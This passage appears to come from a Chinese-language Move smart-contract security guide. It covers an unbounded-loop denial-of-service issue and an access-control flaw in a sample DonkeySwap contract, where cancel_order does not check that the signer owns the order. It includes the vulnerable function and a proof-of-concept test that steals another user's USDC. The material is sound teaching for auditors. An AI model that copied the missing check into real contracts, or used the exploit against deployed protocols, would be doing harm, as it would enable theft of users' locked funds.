 #### 影响

由于这些函数都可以通过注册大量的订单而被阻止，攻击者有可能会

- 永久阻止所有用户取消或履行限价订单，永久锁定在协议中的资金。
- 永久阻止用户兑换、增加流动性和创建限价兑换订单。

#### 建议

避免对每个订单进行循环，而是要考虑限制每个循环的迭代次数，并构建费用以激励用户履行彼此的订单。

## 3. 不当的访问控制

接受一个&signer 参数并不足以实现访问控制， 一定要断言签名者是预期的账户。

### DonkeySwap: 不恰当的 cancel_order 功能访问控制

- 类别：编码错误
- 严重程度：关键
- 影响：严重
- 可能性: 高

#### 描述

在取消订单并将资产转移给调用者之前，cancel_order 函数没有断言签名者是订单的所有者：

```
public fun cancel_order<BaseCoinType>(
        user: &signer,
        order_id: u64
    ) acquires OrderStore, CoinStore {
        // [...]
        deposit_funds<BaseCoinType>(order_store, address_of(user), order.base);
        // [...]
}
```

#### 影响

攻击者有可能通过取消每个用户的订单，耗尽任何币种的所有锁定的流动性：

```
##[test(admin=@donkeyswap, user=@0x2222)]
fun WHEN_exploit_improper_access_control(admin: &signer, user: &signer) acquires CoinCapability {
    setup_with_liquidity(admin, user);

    // let's say the admin deposits some USDC

    let my_usdc = 1000000000000000;
    mint<USDC>(my_usdc, address_of(admin));
    let order_id = market::limit_swap<USDC, ZEL>(admin, my_usdc, 1000000000000000);

    // now, let's try stealing USDC from the admin

    assert!(coin::balance<USDC>(address_of(user)) == 0, ERR_UNEXPECTED_BALANCE);
    assert!(coin::balance<ZEL>(address_of(user)) == 0, ERR_UNEXPECTED_BALANCE);

    market::cancel_order<USDC>(user, order_id); // order owned by admin, but signer is user!

    assert!(coin::balance<USDC>(address_of(user)) == my_usdc, ERR_UNEXPECTED_BALANCE);
    assert!(coin::balance<ZEL>(address_of(user)) == 0, ERR_UNEXPECTED_BALANCE); // received ZEL?
}
```
